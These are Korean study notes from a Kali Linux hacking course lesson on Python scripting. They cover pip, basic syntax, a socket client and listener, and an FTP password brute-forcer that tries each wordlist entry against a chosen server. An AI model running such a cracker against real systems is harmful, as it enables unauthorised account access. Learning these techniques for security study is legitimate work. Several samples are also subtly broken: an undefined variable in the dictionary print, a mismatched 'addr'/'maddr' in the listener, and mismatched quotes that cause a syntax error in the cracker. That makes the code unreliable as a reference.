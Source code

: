 # 칼리 리눅스 실습 17

 - 기본적인 스크립트 작성을 만들 줄 알아야함.(남이 만든것만 쓰면 안됨.)
 - sqlmap,scapy,SET(social-engineer toolkit),w3af등 인기있는 해커 도구는 대부분 파이썬 스크립트로 만들어졌다.
 - 이번에는 라이브러리가 많은 파이썬을 가지고 스크립트를 만든다.

## 파이썬 모듈 추가
 - 파이썬을 설치할 때 광범위한 기능을 제공하는 표준 라이브러리 및 모듈 모음도 설치한다.
 - 이런 표준 라이브러리,모듈 + 서드 파티 모듈이 광범위하기 때문에 자주 쓴다.(https://www.pypi.org/ 에서 찾을 수 있다.)
 - pip(pip installs packages)라는 파이썬 패키지를 설치하고 관리하기 위한 패키지 관리자가 파이썬에 있다.
 - 여기에서는 파이썬 3으로 작업할 것이니 파이썬 3용 pip가 필요하다. sudo apt-get install python3-pip로 설치할 수 있다.
 - 이제 pip3 install [패키지명]으로 패키지를 다운로드하면 자동으로 /usr/local/lib/python3.6/pysnmp에서 찾을 수 있다.
 - pip3 show [패키지명]으로 패키지가 있는 디렉터리 정보를 포함하여 패키지에 대한 많은 정보를 제공하기도 한다.
 - 서드 파티 모듈 설치를 위해서는 wget 명령으로 온라인으로 저장되는 모든 위치에서 다운로드하고 모듈 압축을 푼 다음 python setup.py install 명령을 실행할 수 있다.
 1. 먼저 xael.org에서 모듈을 다운로드 한다.
 ex) wget https://xael.org/pages/python-nmap-0.7.1.tar.gz
 2. 압축을 푼다. tar -xzf python-nmap-0.7.1.tar.gz
 3. 디렉터리를 새로 생성된 디렉터리로 변경한다. cd python-nmap-0.7.1
 4. 해당 디렉터리에 새 모듈을 설치한다. python setup.py install (현재는 권장되지 않는 명령어)

## 파이썬 스크립트 작성
 - hackers-arise_greetings.py를 작성하고 편집기로 실행한다.
 ```
 #! /usr/bin/python3
 name="OccupyTheWeb"
 print("Greetings to " + name + " from Hackers. the best place to learn.")
 ```
 - 이제 chmod 755 hackers-arise_greetings.py로 실행 권한을 부여하고 ./hackers-arise_greetings.py로 실행한다.
 ``` study.py
 #! /usr/bin/python3
 a = "strings"
 b = 2
 c = 3.1415
 d = [1,2,3,4,5,6]
 for i in range(6):
     print(d[i])
 dict = {'name':'bin','value':27}
 print(dict[name])
```
 - 얘도 권한 755로 바꾸고 ./로 실행해주면 잘 실행된다.
 - 주석은 # 나 """ 중간 말 """로 한다.
 - 함수는 정말 많지만 간단히 살펴보면 exit(),float(),help(),int(),len(),max(),open(),range(),sorted(),type()등이 있다.
 - 정의하고 싶다면 def a(매개변수들):으로 정의하면 된다.
 - 반복문은 for i in range(5):,while (cnt<=10): 처럼 쓰며 true,false는 True,False처럼 대문자로 쓴다.
 - if else 구문은 if user_id==10:처럼 괄호 없이 쓴다.

 - 모듈은 단순히 별도의 파일에 저장된 코드 부분이므로 다시 입력할 필요 없이 프로그램에서 필요한 만큼 사용할 수 있다.
 - nmap을 쓰고 싶다면 nmap 모듈을 위에서 처럼 다운로드하고 import nmap을 하면 된다.

### 파이썬에서의 네트워크 통신
 1. tcp 클라이언트 제작 (socket 모듈 이용)
 - touch client.py
 ```
 #! /usr/bin/python3
 import socket
 s = socket.socket() # 소켓 객체 생성
 s.connect(("127.0.0.1",22)) # 특정 ip로 연결
 answer = s.recv(1024) # 1024바이트 데이터를 읽어서 answer에 저장
 print(answer)
 s.close()
 ```
 - chmod 755 client.py

 2. tcp 리스너 제작
 - 이 소소
 - touch server.py
 ```
 #! /usr/bin/python3
 import socket

 TCP_IP = "192.168.181.190"
 TCP_PORT = 6996
 BUFFER_SIZE = 100
 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
 s.bind((TCP_IP,TCP_PORT))
 s.listen(1)
 conn,maddr = s.accept()
 print('connection address: ',addr)
 while True:
     data=conn.recv(BUFFER_SIZE)
     if not data:
         break;
     print("Received date: ",data)
     conn.send(data)
 conn.close()
 ```
 - chmod 755 server.py
 - 이 스크립트를 사용하면 특정 IP 주소와 포트에서 실행 중인 곳에 연결을 요청해 특정 IP 포트가 열려있는지,응답 메시지로 애플리케이션, 버전, 운영체제가 무엇인지 알 수 있다.

## 예외 및 비밀번호 크래커
```
#! /usr/bin/python3
import ftplib
server = input("FTP Server: ")
user = input("username: ")
PasswordList = input("Path to Password List > ")
try:
    with open(PasswordList,'r') as pw:
        for word in pw:
            word = word.strip('\r\n')
            try:
                ftp = ftplib.FTP(server)
                ftp.login(user,word)
                print("Success! the password is " 
                + word)
            except ftplib.error_perm as exc:
                print('still trying...',exc)
except Exception as exc:
    print('Wordlist error ",exc)
```
 - FTP 프로토콜을 위해 ftplib 모듈에서 도구를 이용한다.
 - FTP 서버의 IP 주소, 사용자명을 입력하고 비밀번호 목록을 위한 값을 넣는다.
 - 그러면 이제 strip()으로 비밀번호들만 남기고 비밀번호 목록으로 로그인을 시도한다.
 - 만약 비밀번호 입력이 힘들다면 bigpasswordlist.txt를 만들고 입력으로 txt파일을 넣을 수도 있다.

